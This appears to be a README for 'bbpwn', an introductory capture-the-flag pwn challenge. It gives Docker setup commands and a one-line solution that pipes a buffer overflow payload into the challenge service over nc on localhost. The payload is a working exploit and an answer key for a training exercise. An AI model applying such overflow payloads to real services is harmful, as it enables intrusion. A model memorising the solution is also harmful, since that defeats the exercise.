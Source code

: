 # bbpwn
Intro pwn challenge.

# Setup

sudo docker build -t bbpwn .
sudo docker run --rm -it -p 4252:4252 bbpwn

# Solution 
python -c "print 'A' * 32 + '\xef\xbe\x37\x13'" | nc localhost 4252
